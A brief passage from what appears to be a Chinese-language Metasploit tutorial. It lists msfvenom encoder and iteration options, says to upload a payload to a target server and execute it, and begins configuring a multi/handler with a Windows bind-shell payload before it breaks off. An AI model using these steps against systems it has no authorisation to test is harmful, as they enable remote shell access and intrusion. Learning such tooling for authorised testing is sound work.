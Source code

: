 | 

```
-e, --encoder    <encoder>        指定需要使用的编码器
```

 |
| 

 | 

```
-i, --iterations <count>          指定payload的编码次数
```

 |

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkojXxXvepRWy8TJb1DwI0WbPwzqRUeFFIcPXoKatDWTJHCicuHzibLYF2Pjia2ov9zcmXTKnjLDA1zNg/640?wx_fmt=jpeg)

上传 payload 到目标服务器，并执行。

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkojXxXvepRWy8TJb1DwI0Wb5gh08aav87KkoXTVYRB9WIY7P0csSJ0e9rz8jFUAtnMekCBiajRI1rA/640?wx_fmt=png)

metasploit 是监听转发后的地址与端口。

| 

 | 

```
sudo msfconsole -q
```

 |
| 

 | 

```
msf5 > use exploit/multi/handler
```

 |
| 

 | 

```
msf5 exploit(multi/handler) > set payload windows/shell_bind_tcp
```
